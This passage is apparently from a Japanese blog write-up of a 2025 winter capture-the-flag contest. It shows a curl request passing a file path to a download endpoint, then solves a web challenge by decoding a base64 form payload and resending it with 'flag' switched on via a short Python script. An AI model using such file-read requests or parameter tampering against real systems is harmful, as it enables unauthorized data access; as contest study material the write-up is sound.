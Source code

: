 ```
$ curl --data-raw "fName=/etc/WE-3" https://we3-prod.2025winter-cybercontest.net/secret/download.php
```

## [WE] 直接聞いてみたら？ (200pts)

> 下記のURLはAPIテストのためのフォームです。 ここからフラグを入手してください。
> https://we4-prod.2025winter-cybercontest.net/
> 【回答書式】 flag{n桁のアルファベット}

次のようなWebページへのURLが与えられる。

![](/assets/blog/bouei/image-12.png)

試しに適当にチェックを入れて「問い合わせ」を送ると、アラートが表示された。

![](/assets/blog/bouei/image-13.png)

ソースコードを見ると、次のコードで問い合わせを行っているようだ。
```javascript
function sendData(){
	var dataS = $('form').serializeArray();
	var dataB = btoa(JSON.stringify(dataS));
	var data = "data=" + dataB

	console.log(data);
	var xhr = new XMLHttpRequest();
	xhr.open('POST','json.php');
	xhr.setRequestHeader('Content-Type','application/x-www-form-urlencoded');
	xhr.send(data);

	xhr.onload = function() {
	  if (xhr.status != 200) {
	    alert(`失敗 ${xhr.status}: ${xhr.statusText}`);
	  } else {
	    alert(`成功, 取得データは ${xhr.response.length} bytes`);
	  }
	};
}
```

送られるデータはbase64でエンコードしてあることがわかる。

![](/assets/blog/bouei/image-14.png)

デコードしてみると、次のようなJSONであることがわかる。

```json
[{"name":"tel","value":"on"},{"name":"address","value":"on"}]
```

試しに、次のコードで、`flag`をonにしてリクエストを送ってみたところ、フラグが返ってきた。

```javascript
import requests
import base64

URL = "https://we4-prod.2025winter-cybercontest.net/"

s = requests.session()
s.get(URL)
r = s.post(URL + "json.php", data={
    "data": base64.b64encode(b'[{"name":"flag","value":"on"}]')
})
print(r.text)
```


[hint]: overflow == 0x0
[hint]: overflow == 0x3534333231307a79